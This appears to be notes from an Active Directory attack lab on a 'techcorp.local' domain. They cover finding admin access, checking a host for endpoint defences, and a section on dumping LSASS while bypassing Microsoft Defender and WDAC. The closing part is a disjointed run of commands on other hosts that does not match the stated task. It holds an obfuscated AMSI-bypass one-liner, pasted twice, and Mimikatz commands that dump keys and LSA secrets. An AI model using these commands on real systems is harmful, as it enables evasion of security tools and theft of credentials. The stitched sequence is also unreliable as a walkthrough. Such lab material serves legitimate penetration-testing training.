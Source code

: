 Check for admin privileges on a machine in the target domain.
Run the below commands in the process running with privileges of `jumpone`.

```
C:\Windows\system32> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\Windows\system32> Import-Module C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1

PS C:\Windows\system32> Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose

us-jump3 🖥️
```

We have administrative access to `us-jump3` machine as `jumpone`.
We can now access `us-jump3` using winrs or PowerShell Remoting.

---
---

## LSASS Dump with MDE & WDAC Bypass

### Lab: Hands-On #10.2

#### Tasks

- Move laterally and extract credentials on `us-jump` bypassing MDE & WDAC

#### Solution

- Move laterally and extract credentials on `us-jump` bypassing MDE & WDAC

**Credentials Extraction on `us-jump3` - MDE & WDAC Bypass**

Let us now test to see if an EDR is enabled on the target using `Invoke-EDRChecker.ps1` as follows.
Run the following command in the process spawned as `jumpone`.

```
PS C:\Windows\system32> Import-Module C:\AD\Tools\Invoke-EDRChecker.ps1

PS C:\Windows\system32> Invoke-EDRChecker -Remote -ComputerName us-jump3

[SNIP]

[!] Performing EDR Checks against us-jump3.us.techcorp.local, remote checks are limited to process listing, common install directories and installed services

[!] Checking running processes of us-jump3.us.techcorp.local
[-] ProcessName=MsMpEng; Name=MsMpEng; Path=; Company=; Product=; Description=
[-] ProcessName=NisSrv; Name=NisSrv; Path=; Company=; Product=; Description=
[-] ProcessName=SecurityHealthService; Name=SecurityHealthService; Path=; Company=; Product=; Description=

[!] Checking running services of us-jump3.us.techcorp.local
[-] Name=mpssvc; DisplayName=Windows Defender Firewall; ServiceName=mpssvc
[-] Name=SecurityHealthService; DisplayName=Windows Security Service; ServiceName=SecurityHealthService
[-] Name=Sense; DisplayName=Windows Defender Advanced Threat Protection Service; ServiceName=Sense 📌
[-] Name=WdNisSvc; DisplayName=Windows Defender Antivirus Network Inspection Service; ServiceName=WdNisSvc
[-] Name=WinDefend; DisplayName=Windows Defender Antivirus Service; ServiceName=WinDefend

[!] Checking Program Files on us-jump3.us.techcorp.local
[-] Name=Sysmon
[-] Name=Windows Defender
```

[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'